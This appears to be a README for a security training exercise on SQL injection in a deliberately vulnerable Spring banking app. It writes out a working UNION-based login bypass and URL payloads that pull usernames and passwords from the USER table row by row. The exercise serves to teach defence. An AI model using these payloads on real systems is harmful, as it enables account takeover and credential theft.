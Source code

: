# Exercise 3 - SQL injection
Exercise to help you understand SQL injection and its mitigations

## Setup and Start Applications

1. check out exercise3 
   * from command line: 'git checkout exercise3'
1. start the v-bank-app in debug mode
   * with maven command:'mvn clean spring-boot:run -f ./v-bank-app/pom.xml'

## Look for SQLi vulnerabilities
Hints:
* In java classes where database operations are carried out; in such classes an instance of the javax.sql.DataSource is injected:
```
    @Autowired
    private DataSource dataSource;
```
  * Please note that this is not an universal property of code vulnerable to SQLi, it only stands for classes in our application that is based on Java and Spring.
* Where SQL is concatenated in the code before passing it onto the JDBC api.
`connection.createStatement().executeQuery("SELECT * FROM ACCOUNT ACC WHERE ACC.USERNAME  = '" + userName + "'")`

Present vulnerabilities:
* In the *JDBCUserDetailsService* class that is responsible for loading the UserDetails upon authentication
* In the *JDBCAccountService* class that is an implementation of the *AccountService* utilizing the JDBC API directly

##Exploit to understand
* The SQL in the JDBCUserDetailsService class is `"SELECT USERNAME, PASSWORD FROM USER U WHERE U.USERNAME = '" + uname + "'"`.
  This should be tweaked so to return USERNAME, PASSWORD pair with a known password:
`SELECT USERNAME, PASSWORD FROM USER U WHERE U.USERNAME = '' AND SELECT 'bob','password' --'`
using below input on login page:
  * username: ' UNION SELECT 'bob' AS USERNAME,'x' AS PASSWORD --
  * password: x
  This makes the code return a UserDetails object with the username (bob) and password (x) values set in the injected SQL snippet.
  Exploiting this SQLi vulnerability in the authentication component Alice could easily log in as Bob.
* The home page is calling a REST service at http://vbank.0.0.0.0.xip.io:8080/api/v1/account/ACCOUNT_NO where ACCOUNT_NO URL fragment is taken as the parameter of the SQL query selecting user details. This parameter is SQL injectable. 
  * we check if we can do UNION select on this parameter, injecting 4 additional result columns with an UNION injection into the original query: > http://vbank.0.0.0.0.xip.io:8080/api/v1/account/' UNION SELECT '1', '2','3','4' -- 
  * as this works we can use it to exfiltrate user credentials: > http://vbank.0.0.0.0.xip.io:8080/api/v1/account/' UNION SELECT USERNAME, PASSWORD, '3', '4' FROM USER --
  * since it returns only one row we have to iterate over the USER table: http://vbank.0.0.0.0.xip.io:8080/api/v1/account/' UNION SELECT USERNAME, PASSWORD,'3','4' FROM (SELECT ROWNUM() as ROW_NUM, USERNAME, PASSWORD FROM USER) WHERE ROW_NUM=1 --
  * increment ROW_NUM till it reaches the end of the USER table.

### Task
Use the transaction history page to exfiltrate data with SQL injection: http://vbank.0.0.0.0.xip.io:8080/history?accountNo=ACCOUNT_NO (where account no is the SQL injectable parameter).
Hint: http://vbank.0.0.0.0.xip.io:8080/history?accountNo=%27%20UNION%20SELECT%20%271%27,%272%27,%273%27,%274%27,%275%27,%276%27,%277%27%20--

